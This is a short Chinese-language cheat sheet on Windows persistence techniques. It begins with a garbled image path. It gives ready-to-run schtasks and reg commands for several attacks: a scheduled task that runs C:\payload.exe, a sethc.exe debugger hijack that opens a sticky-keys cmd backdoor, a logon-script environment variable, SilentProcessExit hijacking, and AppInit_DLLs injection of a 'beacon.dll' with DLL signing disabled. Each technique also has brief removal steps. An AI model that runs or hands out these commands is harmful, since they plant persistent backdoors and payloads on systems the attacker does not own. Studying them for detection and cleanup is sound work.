 schtasks /create /tn shell /tr C:\payload.exe /sc minute /mo 1 /st 10:30:30 /et 10:50:00
清理痕迹

控制面板->管理工具->任务计划程序->找到恶意计划任务
在 操作 中找到调用的脚本，进行文件删除
删除恶意计划任务
映像劫持
在程序运行前会去读自己是否设置了debug，需要对劫持的程序有权限

以下通过注册表对setch.exe设置了debug为cmd.exe程序，也就是按5下shift会弹出cmd的框

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
清理痕迹

HKLM是HKEY_LOCAL_MACHINE

找到目标的注册表，将debug内容删除

环境变量
用户登陆时会去加载环境变量，通过设置环境变量UserInitMprLogonScript值，实现登陆时自动运行脚本

reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\Users\Public\Downloads\1.bat" /f
清理痕迹

直接找到 开始->用户头像->更改我的环境变量

进程退出劫持
在注册表HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit下控制程序的退出时执行的动作,但有时候权限很迷

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /t REG_SZ /d "c:\payload.exe”
清理痕迹

找到目标的注册表删除即可

AppInit_DLLs注入
User32.dll 被加载到进程时，设置其注册表的中能设置加载其他的dll文件，则可使其加载恶意的脚本

对HKML注册表的内容进行修改一般都要system权限

Windows 10

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v Appinit_Dlls /t REG_SZ /d "c:\Users\Public\Downloads\beacon.dll" /f

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 0x1 /f
其他

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v Appinit_Dlls /t REG_SZ /d "c:\Users\Public\Downloads\beacon.dll" /f

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t REG_DWORD /d 0x1 /f

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v RequireSignedAppInit_DLLs /t REG_DWORD /d 0x0 /f
这样在打开cmd或者计算器这种能调用User32.dll动态链接库的时候就会触发
